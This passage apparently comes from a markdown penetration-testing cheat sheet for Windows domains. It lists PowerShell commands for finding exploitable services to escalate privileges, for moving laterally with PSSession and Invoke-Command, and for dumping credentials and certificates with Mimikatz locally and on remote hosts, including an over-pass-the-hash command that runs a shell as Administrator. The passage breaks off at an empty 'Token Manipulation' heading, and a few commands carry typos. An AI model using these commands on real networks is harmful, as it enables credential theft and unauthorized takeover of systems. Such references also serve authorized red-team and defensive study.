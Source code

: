       
#### Local Privilege Escalation:

##### Get services with unquoted paths and a space in their executable path:
```Powershell          
Get-ServiceUnquoted -Verbose
```    
##### Get services where the current user can write to its binary path:
```Powershell          
Get-ModifiableServiceFile -Verbose
```        
##### Get the services which current user can modify:
```Powershell          
Get-ModifiableService -Verbose    
```
#### Lateral movement protocols and tools:

##### One-to-One:
```Powershell          
New-PSSession -ComputerName <computername> 
$sess = New-PSSession -ComputerName <computername> 

Enter-PSSession -Computername <computername
Enter-PSSession -Session $sess
```    
##### One-to-Many:
```Powershell          
Invoke-Command / icm -ScriptBlock {<command>} -ComputerName <computername>
    
Invoke-Command /icm -FilePath <filepath> -ComputerName <computername>
```    
##### Stateful:
```Powershell          
$Sess = New-PSSession -ComputerName <computername>
Invoke-Command/icm -Session $Sess -ScriptBloack { $Proc = Get-Process}
Invoke-Command/icm -Session $Sess -ScriptBloack { $Proc.Name}
```
#### Mimikatz:
    
##### Local:
```Powershell              
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -DumpCerts
```
##### Remote:
```Powershell              
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")
```        
##### Over-pass-the-hash:
```Powershell              
Invoke-Mimikatz -Command ‘"sekurlsa::pth /user:Administrator /domain:. /ntlm:<ntlmhash> /run:powershell.exe"’
```        
#### Token Manipulation:
